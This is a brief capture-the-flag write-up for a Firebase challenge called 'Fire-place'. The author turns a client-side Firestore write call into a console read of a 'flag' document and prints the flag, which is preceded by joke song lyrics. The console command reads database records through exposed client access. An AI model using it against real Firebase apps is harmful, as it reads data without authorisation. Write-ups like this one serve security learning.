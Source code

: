 # Fire-place

firebase challenge!!! looks like theres a write call to the database in the network requests. quick look at the javascript confirms this. the offending function `sendTHEPIXEL():`

```text
db.collection("board").doc("data").update(docdata)
```

lets just change 'data' to 'flag' and a write request to a read request. im sure the flag isnt actually flag lol.... the documentation for that can be found here: [https://firebase.google.com/docs/firestore/query-data/get-data\#web\_1](https://firebase.google.com/docs/firestore/query-data/get-data#web_1) so we enter into the console:

```text
db.collection("board").doc("flag").get().then(function(doc {console.log(doc.data())})
```

and in response we get:

### "Never gonna give you up":

```text
We're no strangers to love  
You know the rules and so do ...   
Never gonna tell a lie and hurt you   
Never gonna give you up   
Never gonna let you down   
Never gonna run around and desert you   
Never gonna make you cry  
Never gonna say goodbye   
Never gonna tell a lie and hurt you"
```

​"flag!!!!!!!!!!!!!": `"rtcp{d0n't_g1ve_us3rs_db_a((3ss}"` ​ fuck.

## rtcp{d0n't\_g1ve\_us3rs\_db\_a\(\(3ss}

